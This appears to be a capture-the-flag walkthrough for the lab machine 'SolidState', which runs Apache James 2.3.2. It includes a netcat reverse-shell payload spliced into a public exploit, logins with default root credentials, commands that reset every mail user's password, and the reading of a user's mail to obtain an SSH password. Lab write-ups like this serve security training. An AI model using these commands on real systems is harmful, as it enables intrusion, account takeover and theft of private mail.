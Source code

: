 ### 10.10.10.51 - SolidState

1. After initial nmap scans, I found this server was running James version 2.3.2.  There is a vulnerability allowing one to create a user with a folder path specified in the name, allowing you to place files anywhere on the disk.  This exploit was designed to use this vulnerability to create files in bash_completion.d, which will run once the user logs in:  https://www.exploit-db.com/exploits/35513.  

2. I verified that James was using the default root password and then modified line 19 of the exploit above to kick off a reverse shell for any user, then I ran the exploit to set up the file that will run on user login.

   ```bash
   telnet 10.10.10.51 4555
   root
   root
   # Able to login
   ```

   ```bash
   # modified line 19 of https://www.exploit-db.com/exploits/35513
   payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i |nc 10.10.14.29 8001 >/tmp/f; rm /tmp/f'
   ```

   ```bash
   python 35513.py 10.10.10.51
   ```

3. I logged into the James control panel as root again and examined the email users.  I changed their passwords to `oscp` and so I could log into the pop server to look at their emails.  

   ```bash
   telnet 10.10.10.51 4555
   root
   root
   setpassword james oscp
   setpassword thomas oscp
   setpassword john oscp
   setpassword mindy oscp
   setpassword mailadmin oscp
   ```

4. The user mindy had an email that gave the password for her ssh login to the server, which was `P@55W0rd1!2@`.  

   ```bash
   telnet 10.10.10.51 110
   user mindy
   pass oscp
   list
   retr 2
   ```
